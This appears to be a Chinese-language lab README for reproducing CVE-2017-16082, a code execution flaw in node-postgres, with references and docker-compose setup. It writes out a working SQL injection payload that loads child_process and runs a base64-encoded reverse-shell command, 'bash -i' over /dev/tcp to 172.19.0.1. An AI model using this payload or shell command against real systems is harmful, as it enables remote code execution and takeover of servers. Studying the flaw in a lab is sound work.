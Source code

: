 # node-postgres 代码执行漏洞（CVE-2017-16082）

## 漏洞原理

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## 漏洞复现

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息，用sqlmap即可发现此处存在注入点，且数据库为postgres：

![](img/1.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

将上述payload编码后发送：

![](img/2.png)

成功执行命令，如反弹shell：

![](img/3.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[我的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。
